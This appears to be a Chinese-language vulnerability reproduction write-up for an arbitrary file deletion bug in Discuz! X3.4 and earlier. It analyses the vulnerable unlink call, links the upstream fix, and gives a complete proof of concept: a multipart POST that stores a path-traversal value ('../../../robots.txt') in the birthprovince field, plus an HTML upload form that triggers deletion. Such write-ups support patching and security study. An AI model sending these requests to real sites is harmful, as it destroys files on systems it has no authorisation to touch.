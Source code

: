 Discuz! X3.4 任意文件删除漏洞
=============================

一、漏洞简介
------------

二、漏洞影响
------------

影响版本：Discuz!x ≤3.4

三、复现过程
------------

### 漏洞分析

Discuz!X的码云已经更新修复了该漏洞

https://gitee.com/ComsenzDiscuz/DiscuzX/commit/7d603a197c2717ef1d7e9ba654cf72aa42d3e574

核心问题在`upload/source/include/spacecp/spacecp_profile.php`

![](./resource/Discuz!X3.4任意文件删除漏洞/media/rId25.png)

跟入代码70行

    if(submitcheck('profilesubmit')) {

当提交profilesubmit时进入判断，跟入177行

![](./resource/Discuz!X3.4任意文件删除漏洞/media/rId26.png)

我们发现如果满足配置文件中某个formtype的类型为file，我们就可以进入判断逻辑，这里我们尝试把配置输出出来看看

![](./resource/Discuz!X3.4任意文件删除漏洞/media/rId27.png)

我们发现formtype字段和条件不符，这里代码的逻辑已经走不进去了

我们接着看这次修复的改动，可以发现228行再次引入语句unlink

    @unlink(getglobal('setting/attachdir').'./profile/'.$space[$key]);

回溯进入条件

![](./resource/Discuz!X3.4任意文件删除漏洞/media/rId28.png)

当上传文件并上传成功，即可进入unlink语句

![](./resource/Discuz!X3.4任意文件删除漏洞/media/rId29.png)

然后回溯变量`$space[$key]`,不难发现这就是用户的个人设置。

只要找到一个可以控制的变量即可，这里选择了birthprovince。

在设置页面直接提交就可以绕过字段内容的限制了。

![](./resource/Discuz!X3.4任意文件删除漏洞/media/rId30.png)

成功实现了任意文件删除

### 漏洞复现

访问`http://your-ip/robots.txt`可见robots.txt是存在的：

![](./resource/Discuz!X3.4任意文件删除漏洞/media/rId32.png)

注册用户后，在个人设置页面找到自己的formhash：

![](./resource/Discuz!X3.4任意文件删除漏洞/media/rId33.png)

带上自己的Cookie、formhash发送如下数据包：

    POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
    Host: localhost
    Content-Length: 367
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
    Cookie: [your cookie]
    Connection: close

    ------WebKitFormBoundaryPFvXyxL45f34L12s
    Content-Disposition: form-data; name="formhash"

    [your formhash]
    ------WebKitFormBoundaryPFvXyxL45f34L12s
    Content-Disposition: form-data; name="birthprovince"

    ../../../robots.txt
    ------WebKitFormBoundaryPFvXyxL45f34L12s
    Content-Disposition: form-data; name="profilesubmit"

    1
    ------WebKitFormBoundaryPFvXyxL45f34L12s--

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：

![](./resource/Discuz!X3.4任意文件删除漏洞/media/rId34.png)

说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：

    <body>
        <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
            <input type="file" name="birthprovince" />
            <input type="submit" value="upload" />
        </form>
    </body>

用浏览器打开该页面，上传一个正常图片。此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除：

![](./resource/Discuz!X3.4任意文件删除漏洞/media/rId35.png)
